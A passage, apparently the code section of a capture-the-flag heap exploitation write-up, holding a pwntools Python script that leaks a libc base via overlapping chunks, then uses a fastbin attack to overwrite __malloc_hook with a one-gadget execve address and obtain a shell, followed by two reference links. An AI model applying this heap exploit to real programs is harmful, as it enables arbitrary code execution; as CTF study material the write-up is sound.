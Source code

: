 ```python
    p.recvuntil('Index:')
    p.sendline(str(index))
    p.recvuntil('Content: \n')
    return p.recvline()[:-1]

def leak():
    alloc(0x60) # 0
    alloc(0x40) # 1
    fill(0, 0x60 + 0x10, 'a' * 0x60 + p64(0) + p64(0x71))
    alloc(0x100) # 2
    fill(2, 0x20, 'c' * 0x10 + p64(0) + p64(0x71))
    free(1)  # free 1
    alloc(0x60) # alloc 1
    fill(1, 0x40 + 0x10, 'b' * 0x40 + p64(0) + p64(0x111))
    alloc(0x50) # 3
    free(2) # free 2
    leaked = u64(dump(1)[-8:])
    # return libc_base
    return leaked -0x3c4b20-88


def fastbin_attack(libc_base):
    malloc_hook = libc.symbols['__malloc_hook'] + libc_base
    execve_addr = 0x4526a + libc_base

    log.info("malloc_hook @" + hex(malloc_hook))
    free(1)
    payload = 'a' * 0x60 + p64(0) + p64(0x71) + p64(malloc_hook - 27 - 0x8) + p64(0)
    fill(0, 0x60 + 0x10 + 0x10, payload)
    alloc(0x60)
    alloc(0x60)
    payload  = 'a' * 3
    payload += p64(0) * 2
    payload += p64(execve_addr)
    fill(2, len(payload), payload)
    gdb.attach(p)
    alloc(0x20)

def main():
    libc_base = leak()
    log.info("get libc_base:" + hex(libc_base))
    fastbin_attack(libc_base)
    p.interactive()

if __name__ == "__main__":
    main()
```

### 参考链接  
https://blog.csdn.net/qq_29343201/article/details/66476135
https://blog.csdn.net/qq_33528164/article/details/79515761

